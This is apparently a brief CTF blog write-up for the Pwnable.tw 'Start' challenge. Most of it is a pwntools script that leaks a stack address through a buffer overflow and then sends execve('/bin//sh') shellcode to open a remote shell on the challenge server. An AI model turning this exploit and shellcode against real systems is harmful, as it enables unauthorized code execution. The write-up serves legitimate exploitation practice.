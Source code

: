 ```yaml
---
layout: post
title: 'Pwnable.tw: Start'
published: true
---
```

First, we check file info: 

![Capture.PNG]({{site.baseurl}}/img/ctf/pwnable.tw/Capture.PNG)


It's a .elf file. Now we should open disassembler like IDA Pro.
![assembly.PNG]({{site.baseurl}}/img/ctf/pwnable.tw/assembly.PNG)

  from pwn import *

  conn = remote("chall.pwnable.tw", 10000)
  conn.recv(20)

  shellcode = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"

  payload = 'A'* 20 + p32(0x08048087)
  conn.send(payload)
  esp_add = conn.recv(20)

  print esp_add

  esp_add = u32(esp_add[0:4])
  print esp_add
  payload = 'A' * 20 + p32(esp_add + 20) + shellcode
  conn.send(payload)


  conn.interactive()
  conn.close()







